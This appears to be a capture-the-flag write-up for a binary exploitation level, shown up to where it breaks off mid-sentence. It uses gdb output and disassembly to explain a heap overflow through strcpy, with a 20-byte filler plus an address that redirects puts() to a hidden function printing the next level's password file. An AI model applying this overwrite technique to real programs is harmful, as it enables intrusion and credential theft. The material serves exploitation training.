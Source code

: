 ## level7

The `level7` expects at least two arguments otherwise it will crash. There are two functions, `main()` and `m()` and `m()` is naver called from `main()` we can see it using:
```
(gdb) info functions

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m                      <-----------------
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini
```
Many of those functions are from main because the `m()` functions is a relly short one
```
0x080484f4 <+0>:	push   ebp
0x080484f5 <+1>:	mov    ebp,esp
0x080484f7 <+3>:	sub    esp,0x18
0x080484fa <+6>:	mov    DWORD PTR [esp],0x0
0x08048501 <+13>:	call   0x80483d0 <time@plt>
0x08048506 <+18>:	mov    edx,0x80486e0
0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
0x08048517 <+35>:	mov    DWORD PTR [esp],edx
0x0804851a <+38>:	call   0x80483b0 <printf@plt>
0x0804851f <+43>:	leave
0x08048520 <+44>:	ret
```
Disassembling `main()` we see four calls to `malloc()`, two calls to `strcpy()` *(we know `strpcy()` is vulnerable)*, one call to `fopen()`, one call to `fgets()` and one last call to `puts()`. <br> Every call to `malloc()` is made with an `0x8 bytes`.<br> Both `strcpy()` are taking the arguments as it's seconde parameter `strcpy(*dst, argv[1]) - strcpy(*dst, argv[2])` *(that is the reason it will crash if less than two parameters is passed)*
```
~$ gdb -q level7
b *0x080485a0
b *0x080485bd
(gdb) r
Breakpoint 1, 0x080485a0 in main ()
x/s $edx
0xbffff8c3:	 "AAA"
(gdb) r
Breakpoint 2, 0x080485bd in main ()
x/s $edx
0xbffff8c7:	 "BBB"
```

We can use the first `strcpy(*dest, 20 * 'A' + 08049928)` to overflow  and overwrite the  __address__ *(first argument passed to the second `strcpy(*dest <--, *src)`)* and if we place the __address__ of the `GOT` *(yes the same strategy as in `level5`)* of the function  `puts()` and we place  the __address__ of function `m()` to be passed as argument to the second `strcpy()` this function will execute and we will get our flag.<br>
In the `main()` as already said there will be 4 `malloc()` and the `strcpy()` will copy what we entered as first argument to the first __address__ return by `malloc()` and the second argument will be copied to the last __address__ returned by `malloc()` there are also a call to `fopen()` right after the last `strcpy()` and if we examine one __address__ just before the call we see what the function is trying to open <br>
```
0x080485c7 <+166>:	mov    eax,0x80486eb
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
```
From this we know the program is opening the file that contains our *flag* we just have to wait to it to open the file and call `fgets()` right after and store this value in a global variable <br>
`0x080485e4 <+195>:	mov    DWORD PTR [esp],0x804996` <br> and this same variable is passed to `printf()` in the `m()` program that is never called, check the `m()` function above and you can see the same address being passed to `printf()` and four our happiness just before the `main()` funtions returns there's a call to `puts()` coincidence ?
So
